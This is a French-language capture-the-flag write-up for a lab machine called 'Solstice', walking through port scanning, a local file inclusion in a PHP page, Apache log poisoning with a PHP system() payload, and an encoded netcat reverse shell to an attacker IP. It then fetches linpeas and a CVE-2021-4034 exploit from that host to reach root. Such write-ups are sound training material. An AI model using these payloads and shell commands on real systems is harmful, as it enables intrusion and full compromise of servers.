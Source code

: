# Solstice

    sudo nmap -p -sV 192.168.204.72
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.204.72 --tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.204.72
    feroxbuster --silent -u http://192.168.204.72

Scans classiques. 

    21/tcp    open  ftp        pyftpdlib 1.5.6
    22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    25/tcp    open  smtp       Exim smtpd
    80/tcp    open  http       Apache httpd 2.4.38 ((Debian))
    2121/tcp  open  ftp        pyftpdlib 1.5.6
    3128/tcp  open  http-proxy Squid http proxy 4.6
    8593/tcp  open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)
    54787/tcp open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)
    62524/tcp open  tcpwrapped
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

J'ai essayé de me connecter en mode anonyme sur les deux ports FTP. Le premier a refusé, le deuxième a accepté mais ne contient rien.

    ftp anonymous@192.168.204.72 -P 2121
 
En revanche, il y a deux autres serveurs web sur les ports 8593 et 54787. Je commence par le 8593, l'énumération ne donne rien mais l'URL http://192.168.204.72:8593/index.php?book=list peut éventuellement amener des failles de type LFI.

Et en effet cela fonctionne avec un simple essai sur /etc/passwd :

    curl http://192.168.204.72:8593/index.php?book=../../../../../etc/passwd |  grep  -v nologin

J'ai trouvé l'utilisateur Miguel mais je n'arrive pas à récupérer de clé SSH, ou de fichier intéressant plus généralement. En revanche les logs sont bien là où elles devraient être : 

    curl http://192.168.204.72:8593/index.php?book=../../../../../var/log/apache2/access.log

Par élimination, il reste donc les failles de type Log Poisoning à essayer. La manière classique avec la modification du User-Agent semble passer et nous donne bien un reverse-shell :

    curl  -A  "BACKDOOR <?php system(\$_GET['cmd'])?>" http://192.168.204.72 
    curl http://192.168.204.72:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=id
    curl http://192.168.204.72:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=rm%20%2Ftmp%2F  
    f%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.45.231%209001%20%3E%2Ftmp%2Ff
    cat /var/www/local.txt


Élévation de privilèges toute simple avec un CVE : 

    wget http://192.168.45.231/linpeas.sh
    chmod u+x linpeas.sh
    ./linpeas.sh | tee res.txt
    ...
    wget http://192.168.45.231/CVE-2021-4034.sh
    ./CVE-2021-4034.sh
    ls /root
    cat /root/proof.txt

